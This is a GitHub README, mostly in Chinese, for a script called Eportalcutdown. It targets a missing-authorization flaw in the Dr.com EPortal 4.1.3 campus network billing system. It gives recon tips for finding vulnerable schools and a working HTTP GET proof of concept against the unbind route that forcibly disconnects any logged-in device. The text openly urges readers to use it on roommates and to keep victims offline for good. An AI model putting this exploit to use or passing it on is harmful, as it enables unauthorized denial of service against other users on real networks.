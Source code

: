 # Dr.com Eportal校园网管理系统未授权断网漏洞 -附脚本
<img width="800" height="300" alt="image" src="https://github.com/Zaxk1337/DrcomCutdown/assets/164832393/f4107b1c-d880-4688-8a32-921a0b95406d">

# Eportalcutdown

😎测试版本:
  **Guangzhou Hotspot Software Technology Co., Ltd. © 2020   EPortal4.1.3**

🥳效果:
  你是否受够了室友半夜两三点还在激情csgo？是否受够了每当你正要进入梦乡和小美大战800回合的时候，你的室友突然在游戏中破防爆粗口？
  <br>
  Fine，Using this！
  <br>
  如果你家大学正在使用此款计费系统，那么恭喜你🎉，用此脚本可以将校园网内任意已登陆设备强制踹下线，实现断网效果，如果你足够聪明，你可以自己对脚本进行二次开发，一直让b狗娘养的夜战哥处于断网状态，或者隔三差五给他断网恶心他，还你宿舍一个清明。☝️
 
## 识别Recon
那么如何识别你校是否也存在此漏洞？
打开你的校园网认证界面，如果在任意位置你找到了包含*Guangzhou Hotspot Software Technology Co., Ltd* 或者 *本XX系统由广州热点软件科技股份有限公司提供*的Powerby信息，那么🎉con graduation，你所在的校园认证系统中很有可能存在此漏洞。赶紧挑个倒霉蛋试试吧🥚


# 原理 -Principle
由于未对unbind路由做验证，导致任意知道受害者内网ip地址的人员，在使用一个简易将ip地址转换为int整型数字的算法后(已附脚本，算法在脚本里面)，可以实现无授权解绑目标mac地址，实现断网效果。

***POC:***
```
GET /eportal/portal/mac/unbind?wlan_user_mac=000000000000&wlan_user_ip={ipToParseIntValue计算后的ip整数值} HTTP/1.1
Host: {把我换成你家校园网登陆ip地址}:801
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
```
